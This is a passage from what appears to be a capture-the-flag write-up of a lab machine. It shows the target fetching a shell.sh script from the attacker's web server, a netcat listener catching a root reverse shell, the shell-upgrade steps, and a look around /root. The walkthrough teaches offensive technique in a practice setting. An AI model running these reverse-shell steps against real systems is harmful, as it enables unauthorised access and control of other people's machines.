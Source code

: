 

First there's a request at the webserver:



    10.10.10.224 - - [08/Jun/2021 17:57:01] "GET /shell.sh HTTP/1.1" 200 -



Then a shell:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.224] 43642
    bash: cannot set terminal process group (59): Inappropriate ioctl for device
    bash: no job control in this shell
    root@smtp:~#



Python isn't installed on the box, but I can use `script`:



    root@smtp:~# script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null 
    root@smtp:~# ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@smtp:~# 



## Shell as j.nakazawa on srv01

### Enumeration

I'm already root on this host, but there isn't anything interesting in
`/root/`:



    root@smtp:~# ls -la
    total 8
    drwx------. 1 root root 151 Jun  9 10:41 .
    drwxr-xr-x. 1 root root  96 Dec  8  2020 ..
    lrwxrwxrwx. 1 root root   9 Dec  9 12:32 .bash_history -> /dev/null
    -rw-r--r--. 1 root root 570 Jan 31  2010 .bashrc
    -rw-r--r--. 1 root root 148 Aug 17  2015 .profile
    lrwxrwxrwx. 1 root root   9 Dec  9 12:32 .viminfo -> /dev/null



On this host, there's one user, and not many files:
